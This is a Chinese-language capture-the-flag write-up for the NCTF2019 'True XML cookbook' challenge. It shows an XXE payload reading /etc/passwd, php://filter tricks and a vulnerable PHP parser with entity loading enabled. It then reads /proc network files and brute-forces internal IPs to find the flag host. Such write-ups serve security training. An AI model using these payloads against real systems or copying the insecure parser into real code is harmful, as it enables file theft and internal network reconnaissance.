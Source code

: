 # [NCTF2019]True XML cookbook 1

## 0、知识点与技术

>   XXE外部实体注入

>   内网探测

## 1、解题

### 0、关于XXE

>   就是通过XML的头部标签引用外部文件，头部的文件内容为如下：

```xml
<?xml version="1.0" ?>
<!DOCTYPE a[   
<!ENTITY name SYSTEM "file:///etc/passwd" >]
>
# 其中 a 可以是任意的
# name 为实体的名称，是用来测试引入file文件的时候来判断是否存在回显
```

### 1、查看题目

>   查看题目抓包可以在post中发现xml

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107180100.png)

>   然后修改post的内容，在其上面添加xml标头， 可以获取到/etc/passwd文件中的内容

>   常用的XXE的文件读取的测试格式有
>
>   ```shell
>   file：//文件路径				# 基础用法
>   http://ip地址/文件路径		# 这里常用于读取内网的文件
>   php://filter/read=convert.base64-encode/resource=文件路径       # 这里读取到的文件内容为base64加密后的字符串
>   ```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107180240.png)

>   那么可以尝试直接读取一下根目录的flag，然后可以发现出现错误，并不能读取到flag文件，或者说flag文件并不在这里

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107180415.png)

>   这里虽然报错了，但是爆出了一个php文件的路径，然后读取一下这个文件的内容

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107180948.png)

>   解密后获得的文件内容为如下，但是并没有发现什么有用的信息，虽然显示了账号密码，但是使用账号密码进行登录并不会显示flag
>
>   只会显示登陆成功

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107181245.png)

>   然后接下来可以尝试读取其他文件
>
>   ```
>   /etc/hosts
>   /proc/net/arp //arp表，可以获得内网其他机器的地址
>   /proc/net/fib_trie // 路由缓存
>   ```



>   **`/etc/hosts`文件内容**

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107181656.png)

>   **`/proc/net/arp`文件内容**

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107181757.png)

>   **`/proc/net/fib_trie`文件内容**

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107181837.png)

>   然后通过ip地址的方式一个一个尝试访问，试了`/proc/net/arp`文件中的两个ip地址发现不行，
>
>   最后测试`/proc/net/fib_trie`中的10.244.80.161，使用burpsuite爆破一下，建议1-255全试一遍，结果就是在这其中**虽然要等很久但最终可以访问成功的主机ip为**`10.244.80.146`

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107175333.png)

   